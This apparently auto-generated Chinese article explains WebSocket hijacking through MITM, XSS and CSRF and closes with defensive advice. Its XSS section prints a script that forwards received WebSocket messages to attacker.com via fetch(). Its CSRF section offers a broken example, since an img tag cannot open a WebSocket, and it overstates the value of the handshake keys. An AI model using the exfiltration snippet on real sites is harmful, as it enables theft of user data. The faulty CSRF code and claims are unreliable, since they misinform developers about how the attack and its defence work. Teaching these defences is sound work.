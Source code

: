 # WebSocket劫持：原理、攻击与防御

## 1. 概述

WebSocket是一种在单个TCP连接上进行全双工通信的协议，广泛应用于实时Web应用，如在线聊天、游戏、实时数据更新等。然而，WebSocket的安全问题也日益凸显，其中WebSocket劫持（WebSocket Hijacking）是一种常见的攻击方式。本文将从定义、原理、分类、技术细节等方面系统性地阐述WebSocket劫持，并提供防御建议。

## 2. WebSocket协议简介

WebSocket协议在HTTP协议的基础上进行了扩展，允许客户端和服务器之间建立持久连接，并进行双向通信。WebSocket连接的建立过程如下：

1. **握手阶段**：客户端通过HTTP请求发起WebSocket握手，请求头中包含`Upgrade: websocket`和`Sec-WebSocket-Key`等字段。
2. **响应阶段**：服务器返回HTTP 101状态码，表示协议切换成功，响应头中包含`Sec-WebSocket-Accept`字段。
3. **通信阶段**：握手成功后，客户端和服务器之间通过WebSocket协议进行数据传输。

## 3. WebSocket劫持的定义

WebSocket劫持是指攻击者通过某种手段获取合法用户的WebSocket连接，并在未经授权的情况下利用该连接进行恶意操作。攻击者可以窃取数据、注入恶意消息或执行其他未经授权的操作。

## 4. WebSocket劫持的原理

WebSocket劫持的原理与HTTP会话劫持类似，主要依赖于攻击者能够获取合法用户的WebSocket连接信息。WebSocket劫持通常发生在以下场景：

1. **未加密的WebSocket连接**：如果WebSocket连接未使用TLS加密（即`ws://`协议），攻击者可以通过中间人攻击（MITM）窃取WebSocket连接信息。
2. **跨站脚本攻击（XSS）**：如果Web应用存在XSS漏洞，攻击者可以通过注入恶意脚本获取WebSocket连接信息。
3. **CSRF攻击**：如果WebSocket连接的建立过程未进行CSRF防护，攻击者可以通过CSRF攻击强制用户建立WebSocket连接。

## 5. WebSocket劫持的分类

根据攻击手段的不同，WebSocket劫持可以分为以下几类：

### 5.1 中间人攻击（MITM）

在未加密的WebSocket连接中，攻击者可以通过中间人攻击窃取WebSocket连接信息，包括握手阶段的`Sec-WebSocket-Key`和`Sec-WebSocket-Accept`字段，以及通信阶段的数据。

### 5.2 跨站脚本攻击（XSS）

如果Web应用存在XSS漏洞，攻击者可以通过注入恶意脚本获取WebSocket连接信息。例如，攻击者可以通过以下代码窃取WebSocket连接：

```javascript
var ws = new WebSocket("ws://example.com/ws");
ws.onmessage = function(event) {
    // 将收到的消息发送到攻击者的服务器
    fetch("http://attacker.com/steal", { method: "POST", body: event.data });
};
```

### 5.3 CSRF攻击

如果WebSocket连接的建立过程未进行CSRF防护，攻击者可以通过CSRF攻击强制用户建立WebSocket连接。例如，攻击者可以通过以下代码强制用户建立WebSocket连接：

```html
<img src="http://example.com/ws" style="display:none;">
```

## 6. WebSocket劫持的技术细节

### 6.1 中间人攻击的技术细节

在中间人攻击中，攻击者通过ARP欺骗、DNS欺骗等手段将用户流量引导到自己的设备上，然后窃取WebSocket连接信息。由于未加密的WebSocket连接使用明文传输数据，攻击者可以轻松窃取数据。

### 6.2 XSS攻击的技术细节

在XSS攻击中，攻击者通过注入恶意脚本获取WebSocket连接信息。攻击者可以通过以下步骤实施攻击：

1. **注入恶意脚本**：攻击者通过XSS漏洞注入恶意脚本。
2. **获取WebSocket连接**：恶意脚本获取WebSocket连接对象。
3. **窃取数据**：恶意脚本将WebSocket连接中的数据发送到攻击者的服务器。

### 6.3 CSRF攻击的技术细节

在CSRF攻击中，攻击者通过伪造请求强制用户建立WebSocket连接。攻击者可以通过以下步骤实施攻击：

1. **伪造请求**：攻击者通过CSRF漏洞伪造WebSocket连接请求。
2. **强制建立连接**：攻击者强制用户建立WebSocket连接。
3. **利用连接**：攻击者利用WebSocket连接进行恶意操作。

## 7. WebSocket劫持的防御

### 7.1 使用TLS加密

为了防止中间人攻击，建议使用TLS加密的WebSocket连接（即`wss://`协议）。TLS加密可以有效防止攻击者窃取WebSocket连接信息。

### 7.2 防止XSS攻击

为了防止XSS攻击，建议采取以下措施：

1. **输入验证**：对用户输入进行严格的验证，防止恶意脚本注入。
2. **输出编码**：对输出数据进行编码，防止恶意脚本执行。
3. **内容安全策略（CSP）**：通过CSP限制脚本的执行，防止XSS攻击。

### 7.3 防止CSRF攻击

为了防止CSRF攻击，建议采取以下措施：

1. **CSRF令牌**：在WebSocket连接的建立过程中使用CSRF令牌，防止伪造请求。
2. **同源策略**：确保WebSocket连接只能由同源页面发起，防止跨站请求伪造。

### 7.4 其他防御措施

1. **限制WebSocket连接**：限制WebSocket连接的建立条件，例如只允许特定IP地址或用户建立连接。
2. **监控和日志记录**：监控WebSocket连接的使用情况，记录异常行为，及时发现和应对攻击。

## 8. 总结

WebSocket劫持是一种严重的安全威胁，攻击者可以通过中间人攻击、XSS攻击、CSRF攻击等手段窃取WebSocket连接信息，并进行恶意操作。为了防止WebSocket劫持，建议使用TLS加密、防止XSS和CSRF攻击，并采取其他防御措施。通过综合运用这些防御措施，可以有效提高Web应用的安全性，保护用户数据和隐私。

---

*文档生成时间: 2025-03-11 15:09:22*
